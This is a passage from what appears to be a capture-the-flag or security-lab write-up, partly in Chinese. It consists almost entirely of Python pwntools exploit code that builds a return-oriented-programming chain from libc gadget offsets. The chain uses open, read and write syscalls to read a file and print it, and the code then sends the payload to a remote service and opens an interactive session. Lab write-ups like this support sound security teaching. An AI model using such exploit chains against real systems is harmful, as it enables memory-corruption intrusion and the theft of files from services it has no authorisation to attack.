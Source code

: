         pop_rdx_rbx_ret = libc_base + 0x90529
        pop_rcx_ret     = libc_base + 0x8c6bb
        
        payload += p64(pop_rdi_ret)
        payload += p64(2) # open
        payload += p64(pop_rsi_ret)
        payload += p64(buffer_addr)
        payload += p64(pop_rdx_rbx_ret)
        payload += p64(0) # O_RDONLY
        payload += p64(0)
        payload += p64(syscall_addr)
        ```
    - syscall read
        ```python
        payload += p64(pop_rdi_ret)
        payload += p64(0) # read
        payload += p64(pop_rsi_ret)
        payload += p64(4) # fd
        payload += p64(pop_rdx_rbx_ret)
        payload += p64(buffer_addr + 0x10)
        payload += p64(0)
        payload += p64(pop_rcx_ret)
        payload += p64(0x40)
        payload += p64(syscall_addr)
        ```
    - syscall write
        ```python
        payload += p64(pop_rdi_ret)
        payload += p64(1) # write
        payload += p64(pop_rsi_ret)
        payload += p64(1) # fd
        payload += p64(pop_rdx_rbx_ret)
        payload += p64(buffer_addr + 0x10)
        payload += p64(0)
        payload += p64(pop_rcx_ret)
        payload += p64(64)
        payload += p64(syscall_addr)
        
        p.sendafter(b"size> ", b"65535".ljust(0xf, b"\x00"))
        p.send(payload)
        p.interactive()
        ```

远程：

![](/assets/images/sec/software/lab1/bonus.png)
